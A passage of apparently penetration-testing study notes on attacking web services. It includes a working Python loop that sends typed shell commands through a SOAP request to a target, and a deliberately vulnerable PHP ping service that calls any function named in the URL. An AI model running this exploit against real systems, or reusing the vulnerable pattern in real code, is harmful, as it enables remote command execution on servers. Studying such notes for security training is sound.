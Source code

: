 you can also modify the script to send multiple commands: 

```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

## Command Injection 

command injections against web services would allow system command execution directly on the back-end server   
if a web service uses user-controlled input to execute a system command then it is open to malicious payloads to subvert the intended command 

suppose we are assessing a connectivity-checking service on `http://<target>:3003/ping-server.php/ping`  

note that this example is not using the web service designs that we just covered, but rather it is more like a normal web service that provides functionality in a programmatic way 

```php
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url);
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd)));
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

a function called `ping()` is defined that takes in arguments `host_url_ip` and `packets`  
the request will look like: `http://<target>:3003/ping-server.php/ping/<VPN/TUN adapter IP>/3`  

you can make sure that this request is sending ping requests by capturing traffic with tcpdump: 
